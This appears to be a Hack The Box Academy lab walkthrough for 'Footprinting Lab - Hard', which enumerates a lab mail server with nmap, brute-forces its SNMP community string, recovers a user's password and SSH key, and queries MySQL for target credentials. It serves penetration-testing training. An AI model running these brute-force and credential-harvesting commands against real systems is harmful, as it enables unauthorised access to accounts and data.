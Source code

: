 # Footprinting Lab - Hard

[Footprinting Lab - Hard](https://academy.hackthebox.com/module/112/section/1080)  

>The target server is an MX and management server for the internal network. 
>This server has the function of a backup server for the internal accounts in the domain. 
>Accordingly, a user named `HTB` was also created here, whose credentials we need to access.  

## Enumeration  

>Service discovery  

```
sudo nmap -p 22,110,143,993,995 -sCV -A -O 10.129.19.122
```  

>NMAP Output:

```
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3f:4c:8f:10:f1:ae:be:cd:31:24:7c:a1:4e:ab:84:6d (RSA)
|   256 7b:30:37:67:50:b9:ad:91:c0:8f:f7:02:78:3b:7c:02 (ECDSA)
|_  256 88:9e:0e:07:fe:ca:d0:5c:60:ab:cf:10:99:cd:6c:a7 (ED25519)
110/tcp open  pop3     Dovecot pop3d
|_pop3-capabilities: UIDL USER RESP-CODES STLS TOP CAPA AUTH-RESP-CODE SASL(PLAIN) PIPELINING
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_ssl-date: TLS randomness does not represent time
143/tcp open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_imap-capabilities: more ENABLE AUTH=PLAINA0001 LOGIN-REFERRALS IDLE have ID Pre-login listed capabilities post-login STARTTLS LITERAL+ SASL-IR OK IMAP4rev1
|_ssl-date: TLS randomness does not represent time
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
|_imap-capabilities: ENABLE AUTH=PLAINA0001 LOGIN-REFERRALS IDLE more ID have Pre-login listed post-login capabilities LITERAL+ SASL-IR OK IMAP4rev1
|_ssl-date: TLS randomness does not represent time
995/tcp open  ssl/pop3 Dovecot pop3d
|_pop3-capabilities: CAPA AUTH-RESP-CODE SASL(PLAIN) USER RESP-CODES PIPELINING TOP UIDL
| ssl-cert: Subject: commonName=NIXHARD
| Subject Alternative Name: DNS:NIXHARD
| Not valid before: 2021-11-10T01:30:25
|_Not valid after:  2031-11-08T01:30:25
```  

### SNMP  

>Scan UDP ports and enumerate [SNMP service](https://academy.hackthebox.com/module/112/section/1075)  


```
sudo nmap -sU 10.129.19.122 -p 161 --script=snmp-brute -Pn --script-args snmp-brute.communitiesdb=/home/kali/Downloads/htb/academy/resources/snmpcommunities.txt
```  

![snmp Footprinting Lab Hard](/images/snmp-Footprinting-Lab-Hard.png)  

>Brute forcing the SNMP community string and Confirming that it is 'backup'.

```
onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt 10.129.19.122
```  

>onesixtyone output results:  

```
10.129.19.122 [backup] Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64
```  

>Footprinting the SNMP Service  

```
snmpwalk -c backup -v1 10.129.19.122
```  

![snmpwalk-Footprinting-Lab-Hard.png](/images/snmpwalk-Footprinting-Lab-Hard.png)  

>Discover the credentials for the user tom and the password `NMds732Js2761`.  

>Once we know a community string, we can use it with braa to brute-force the individual OIDs and enumerate the information behind them.  

```
sudo braa backup@10.129.19.122:.1.3.6.*
```  

## IMAP / POP3  

>Use the `Curl` command to perform Enumeration of the email services [IMAPS / POP3](https://academy.hackthebox.com/module/112/section/1073)  

```
curl -k 'imaps://10.129.19.122' --user tom:NMds732Js2761
```  

>Output confirm valid mail message items.

>Setup GUI `Evolution` Mail client to read emails in inbox.  

![evolution1-Footprinting-Lab-Hard](/images/evolution1-Footprinting-Lab-Hard.png)  

![evolution 2 Footprinting-Lab-Hard](/images/evolution2-Footprinting-Lab-Hard.png)  

![evolution 3 Footprinting Lab Hard](/images/evolution3-Footprinting-Lab-Hard.png)  

>Discover a SSH Key in the inbox of user `Tom` from `tech@inlanefreight.htb`  

![sshkey-in-mail-Footprinting-Lab-Hard](/images/sshkey-in-mail-Footprinting-Lab-Hard.png)  

## Privilege Escalation    

>Using obtained ssh key for tom to gain foothold.  

```
chmod 600 tom-key.txt
ssh tom@10.129.19.122 -i tom-key.txt
```  

>Identify permissions and group membership current user `tom`.

```
whoami
id
```  

### MySQL  

>Database enumeration with [mySQL](https://academy.hackthebox.com/module/112/section/1238)  
>Inside the ssh session as tom connect to the `mysql` service internallly.

```
mysql --user=tom -p
```  

>SQL Service enumeration to privilege escalate.  

```
show databases;
use users;
show tables;
select * from users where username like 'htb';
```  
